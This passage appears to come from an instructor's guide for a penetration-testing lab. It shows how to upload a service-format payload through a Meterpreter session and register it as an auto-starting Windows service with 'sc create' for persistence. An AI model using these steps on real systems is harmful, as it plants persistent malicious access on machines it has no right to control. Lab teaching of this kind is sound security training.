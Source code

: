      - Point out to students that the format must be `exe-service` and not just `exe`. Executables run by Service Manager are different than regular executables.

8. In the Meterpreter shell, upload the executable you created by using the following commands:

	 - `cd ../../../`
	 - `upload service.exe`

     ![A screenshot depicts the results of the command.](Images/uploadWIN10.PNG)

9. Enter a command shell in your Meterpreter shell:

	 - `shell`
	
10. Create a new service that will use your payload with the following command:

	 - `sc create TestService binPath= "C:\service.exe" start= auto`

     ![makeservice](Images/makeservice.PNG)
